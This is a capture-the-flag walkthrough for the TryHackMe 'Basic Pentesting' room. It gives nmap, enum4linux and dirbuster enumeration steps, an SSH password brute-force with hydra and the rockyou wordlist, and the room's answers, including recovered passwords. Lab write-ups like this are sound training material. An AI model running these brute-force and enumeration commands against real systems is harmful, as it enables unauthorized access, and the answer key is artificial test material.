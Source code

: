 # Basic Pentesting - Web App Test
[View the room](https://tryhackme.com/room/basicpentestingjt)

export IP=10.10.79.144

## Task 1 - Web App Testing and Privilege Escalation
1. Deploy the machine and connect to our network
**Answer:** ```No answer needed```

2. Find the services exposed by the machine
**Answer:** ```nmap -sV $IP```

3. What is the name of the hidden directory on the web server(enter name without /)?
**Answer:**```development (used dirbuster) ```

4. User brute-forcing to find the username & password
**Answer:**```No answer needed```

5. What is the username?

Run the command ```enum4linux -a $IP``` and check the Users on IP_ADDRESS section.

**Answer:** ```jan```

6. What is the password?
Using hydra to brute force: 

```
hydra -t 4 -l jan -P /usr/share/wordlist/rockyou.txt $IP ssh
...
[22][ssh] host: 10.10.79.144   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-23 19:38:38
```

**Answer:** ```armando```

7. What service do you use to access the server(answer in abbreviation in all caps)?
**Answer:** ```SSH```

8. Enumerate the machine to find any vectors for privilege escalation
**Answer:** ```No answer needed```

9. What is the name of the other user you found(all lower case)?

**Answer:** ```kay```

10. If you have found another user, what can you do with this information?
```
Find a way to ssh into their account!
```

11. What is the final password you obtain?
**Answer:** ```heresareallystrongpasswordthatfollowsthepasswordpolicy$$```
